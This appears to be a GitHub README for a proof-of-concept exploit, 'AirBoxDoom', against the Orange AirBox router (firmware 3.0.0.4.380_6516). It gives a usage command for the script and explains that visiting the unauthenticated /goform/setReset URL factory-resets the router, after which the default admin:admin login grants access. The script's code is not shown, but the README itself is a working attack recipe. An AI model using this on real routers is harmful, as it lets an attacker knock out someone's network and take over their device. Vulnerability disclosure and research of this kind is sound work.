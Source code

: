 # AirBoxDoom
Proof of Concept of AirBoxDoom Vulnerability.                   

# How to use      

AirBoxDoom.py         
`python AirBoxDoom.py -ip 192.168.1.1`        
`AirBox resetted to factory settings`

# How it works        

Airbox contains webpage `http://192.168.1.1/goform/setReset` which when entered resets router settings so you can login with default password admin:admin

# Router information        

Router: AirBox
Vendor: Orange
Firmware version: 3.0.0.4.380_6516
    
